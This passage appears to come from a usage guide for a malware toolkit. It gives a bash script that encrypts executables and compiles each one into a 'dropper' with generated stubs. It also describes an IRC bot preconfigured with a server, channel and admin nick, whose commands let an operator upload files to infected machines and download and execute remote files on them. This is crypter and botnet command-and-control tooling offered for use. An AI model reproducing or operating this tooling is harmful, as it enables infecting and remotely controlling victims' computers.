 ### **3. Batch Processing**
```bash
#!/bin/bash
# batch_encrypt.sh - Encrypt multiple files

for file in *.exe; do
    echo "Encrypting $file..."
    ./native_encryptor "$file" "${file}.encrypted"
    
    # Generate stub for each file
    ./native_stub_generator --standalone "${file}_stub.cpp" standalone_basic
    
    # Link stub with encrypted file
    ./stub_linker "${file}_stub.cpp" "${file}.encrypted" "${file}_dropper.cpp"
    
    # Compile final dropper
    g++ -O2 -s -o "${file}_dropper" "${file}_dropper.cpp"
done
```

---

## 🤖 mIRC Bot Setup

### **1. Basic Bot Setup**
```bash
# Build the mIRC bot
./mirc_bot_builder StarBot_bot.cpp

# The bot will be compiled as 'mirc_bot_builder'
```

### **2. Bot Configuration**
The bot comes pre-configured with:
- **Server**: `irc.rizon.net`
- **Channel**: `#rawr`
- **Admin**: `ItsMehRawrXD`
- **Auto-rename**: Enabled (adds random number if nickname taken)

### **3. Bot Commands**

#### **File Operations:**
```
!upload filename.txt          # Upload file to bot
!download http://url/file.exe # Download file from URL
!execute downloaded_file.exe  # Execute downloaded file
!downloadurl http://url/file.exe # Download and execute
```

#### **System Commands:**
```
!botkill                     # Scan and remove malware
!restart soft                # Soft restart (reconnect)
!restart hard                # Hard restart (full restart)
!restart update              # Update and restart
```

